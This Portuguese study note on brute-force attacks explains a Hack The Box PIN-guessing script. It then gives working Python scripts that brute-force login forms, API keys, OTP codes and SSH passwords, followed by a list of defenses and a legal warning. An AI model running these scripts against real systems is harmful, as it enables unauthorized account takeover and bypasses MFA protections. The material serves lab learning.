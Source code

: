 # Brute Force Attack

## Fórmula de Combinações Possíveis

A fórmula que determina o número total de combinações possíveis de uma senha é:

**Possible Combinations = Character Set Size^Password Length**

![Combinações possíveis](../img/possibilidadesSenha.png)

---

## Código do HTB

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

---

## Como o Código Funciona

### **Passo a Passo:**

1. **Importa a biblioteca `requests`**
   - Permite fazer requisições HTTP (GET, POST, etc)

2. **Define o alvo**
   ```python
   ip = "127.0.0.1"   # IP do servidor alvo
   port = 1234         # Porta onde o serviço está rodando
   ```

3. **Loop de força bruta**
   ```python
   for pin in range(10000):
   ```
   - Testa **todas** as 10.000 combinações possíveis (0000 até 9999)

4. **Formatação do PIN**
   ```python
   formatted_pin = f"{pin:04d}"
   ```
   - `{pin:04d}` garante sempre 4 dígitos com zeros à esquerda
   - Exemplos: `7` → `"0007"`, `123` → `"0123"`, `9999` → `"9999"`

5. **Envia requisição HTTP GET**
   ```python
   response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")
   ```
   - URL exemplo: `http://127.0.0.1:1234/pin?pin=0007`

6. **Verifica se acertou**
   ```python
   if response.ok and 'flag' in response.json():
   ```
   - `response.ok` → True se HTTP status = 200 (sucesso)
   - `'flag' in response.json()` → Verifica se a resposta JSON contém a chave `flag`

7. **Imprime resultado e para**
   ```python
   print(f"Flag: {response.json()['flag']}")
   break  # Para o loop quando encontra o PIN correto
   ```

---

## O Código Serve Apenas para o HTB?

**NÃO!** O conceito é universal e pode ser adaptado para diversos cenários:

### **1. Brute Force em Formulário de Login**
```python
import requests

url = "https://site.com/login"
passwords = open('wordlist.txt').readlines()

for pwd in passwords:
    pwd = pwd.strip()
    response = requests.post(url, data={
        'username': 'admin',
        'password': pwd
    })
    
    if "Dashboard" in response.text:  # Login bem-sucedido
        print(f"Senha encontrada: {pwd}")
        break
```

### **2. Brute Force de API Key**
```python
import string
import itertools

chars = string.ascii_uppercase + string.digits  # A-Z e 0-9

# Testa todas as combinações de 6 caracteres
for attempt in itertools.product(chars, repeat=6):
    api_key = ''.join(attempt)
    response = requests.get(f"https://api.com/data?key={api_key}")
    
    if response.status_code == 200:
        print(f"API Key válida: {api_key}")
        break
```

### **3. Brute Force de Token/OTP**
```python
import requests

url = "https://site.com/verify-otp"

# Testa códigos de 6 dígitos (000000 a 999999)
for otp in range(1000000):
    code = f"{otp:06d}"
    response = requests.post(url, data={'otp': code})
    
    if "verified" in response.text.lower():
        print(f"Código correto: {code}")
        break
```

### **4. Brute Force SSH (usando outra biblioteca)**
```python
import paramiko

host = "192.168.1.100"
user = "admin"
passwords = ['123456', 'password', 'admin', 'root']

for pwd in passwords:
    try:
        ssh = paramiko.SSHClient()
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        ssh.connect(host, username=user, password=pwd, timeout=3)
        print(f"Senha encontrada: {pwd}")
        break
    except:
        continue
```

---

## Diferenças Entre HTB e Cenários Reais

| Aspecto | HTB (Lab) | Mundo Real |
|---------|-----------|------------|
| **Proteções** | Nenhuma | Rate limiting, CAPTCHA, lockout |
| **Combinações** | 10.000 PINs | Trilhões de senhas possíveis |
| **Tempo** | Segundos | Dias/anos |
| **Resposta** | Imediata | Delays, timeouts |
| **Legalidade** | Autorizado | **CRIME** sem permissão |

---

## Proteções Comuns Contra Brute Force

Em sistemas reais, você encontrará:

1. **Rate Limiting** - Limita tentativas por minuto/hora
2. **Account Lockout** - Bloqueia conta após X tentativas
3. **CAPTCHA** - Requer validação humana
4. **IP Blocking** - Bloqueia IP após múltiplas falhas
5. **2FA/MFA** - Código adicional mesmo com senha correta
6. **Delay Progressivo** - Aumenta tempo entre tentativas

---

## ⚠️ Aviso Legal

Este código é para **fins educacionais** em ambientes controlados (HTB, labs pessoais).

**Uso não autorizado é CRIME:**
- 🇧🇷 Lei 12.737/2012 (Lei Carolina Dieckmann)
- 🌎 Computer Fraud and Abuse Act (EUA)
- 🇪🇺 GDPR e leis de cibercrime da UE

**Use apenas em:**
- ✅ Plataformas de aprendizado (HTB, TryHackMe)
- ✅ Sistemas próprios ou com autorização escrita
- ✅ Pentests contratados legalmente
